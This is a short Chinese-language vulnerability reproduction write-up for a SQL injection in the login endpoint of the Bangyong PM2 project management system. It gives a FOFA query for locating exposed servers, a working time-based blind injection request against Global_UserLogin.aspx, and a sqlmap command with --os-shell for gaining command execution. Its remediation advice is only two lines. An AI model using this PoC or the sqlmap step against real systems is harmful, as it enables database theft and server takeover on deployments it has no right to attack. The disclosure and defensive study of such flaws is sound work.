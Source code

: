 
# 邦永 PM2 项目管理系统 SQL 注入漏洞复现

### 0x01 产品简介

   邦永 PM2 项目管理系统科学地将项目管理思想和方法和谐、统一，使得长期以来困扰项目管理工作者的工期、进度、投资和成本情况无法整体动态管理的问题得到了全面而彻底的解决。

### 0x02 漏洞概述

  邦永科技 PM2 项目管理平台 Global\_UserLogin.aspx 接口处未对用户传入的参数未进行有效的过滤，直接拼接至 SQL 查询的语句中，导致 SQL 注入漏洞，攻击者可利用该漏洞获取数据库的敏感信息，深入利用可造成服务器失陷。

### 0x03 复现环境

FOFA：body="PM2 项目管理系统 BS 版增强工具.zip"

![](assets/1700701085-484ba86b6a44c4602212e5e4ec3c2a42.png)

### 0x04 漏洞复现 

PoC

```cobol
GET /Global/Global_UserLogin.aspx?accId=1%27%3BWAITFOR+DELAY+%270%3A0%3A5%27--&loginCode=&password=&type= HTTP/1.1
Host: {{Hostname}}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
```

延时 5 秒

![](assets/1700701085-2e81c562c8b2d1d5fe025e114f4b1168.png) Sqlmap 利用

```sql
python3 sqlmap.py -u "http://your-ip/Global/Global_UserLogin.aspx?accId=1*&loginCode=&password=&type=" --os-shell
```

命令执行 

![](assets/1700701085-83c1b8ae5f6d9fa982b1feacd457b909.png)

### 0x05 修复建议 

关闭互联网暴露面或接口设置外部访问权限

升级至安全版本
